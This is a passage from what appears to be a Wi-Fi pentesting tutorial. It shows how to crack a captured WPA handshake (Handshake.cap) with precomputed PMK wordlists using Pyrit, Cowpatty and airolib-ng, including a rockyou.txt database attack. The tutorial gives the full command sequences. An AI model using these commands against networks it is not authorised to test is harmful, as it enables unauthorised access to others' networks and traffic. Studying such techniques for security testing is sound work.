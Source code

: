 Now, we will use the previously created wordlist with the *Pyrit* tool. This tool will give us one of the fastest cracking rates of all methods.

To crack the *.cap* file with our PMKs wordlist we will do the following:

```bash
pyrit -i dic.genpmk -e ESSID -r Handshake.cap attack_cowpatty
```

<br>

#### Cowpatty

Altenatively, we can crack the password using the wordlist generated with *Genpmk* and the *Cowpatty* tool. This tools will not have as good results as *Pyrit*, but when compared with other methods it can be pretty fast.

```bash
cowpatty -d dic.genpmk -r Handshake.cap -s ESSID
```

<br>

#### Aircrack (Conversion)

We have explained how to create a PMKs wordlist with *airolib* and how to crack it with *aircrack-ng*. Alternatively *airolib-ng* offers the feature to generate its own format PMKs wordlist on the basis of *Genpmk* generated wordlist. To do this, we will use the following command:

```bash
airolib-ng PMKsWordlist --import cowpatty dic.genpmk
```

<br>

### Pyrit BBDD Attack

This is the method that will give us the fastest cracking rate of all of the ones above. First of all, we are going to estar importing our plain text wordlist in the *Pyrit* tool:

```bash
pyrit -i rockyou.txt import_passwords
```

Next, we will define the ESSID that we are going to use:

```bash
pyrit -e ESSID create_essid
```

Then, we will generate the PMKs wordlist using the following command:

```bash
pyrit batch
```

Lastly, we are going to perform the cracking stage:

```bash
pyrit -r Handshake.cap attack_db
```
